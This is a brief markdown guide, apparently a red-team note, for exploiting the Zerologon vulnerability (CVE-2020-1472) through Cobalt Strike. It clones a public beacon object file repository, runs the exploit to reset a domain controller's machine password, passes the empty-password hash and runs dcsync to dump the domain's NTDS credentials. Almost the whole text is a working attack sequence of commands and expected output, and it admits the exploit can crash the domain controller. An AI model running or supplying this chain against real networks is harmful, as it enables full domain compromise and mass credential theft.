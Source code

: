 # Exploiting CVE-2020-1472 Zerologon in Cobalt Strike

## Clone the Repository

```
> git clone https://github.com/rsmudge/ZeroLogon-BOF
```

Include the script as usual, the destination is `ZeroLogon-BOF/dist/zerologon.cna`.

The console should show a new command - `zerologon`

Application:

Retrieve Domain name (e.g. domain.local)

```
beacon> net domain
```

Run the exploit:

```
beacon> zerologon iunderstand domain.local
```
iunderstand - stop word. By exploiting this vulnerability we reset the password. This exploit can lead to a failure of the domain controller. WE USE IT LAST.

In case of success we get:
Success! Use `pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0` and run `dcscync`.

Do exactly what it says.

```
beacon> pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0
```

And run

```
beacon> dcsync domain.local
```

If everything worked successfully, we get NTDS
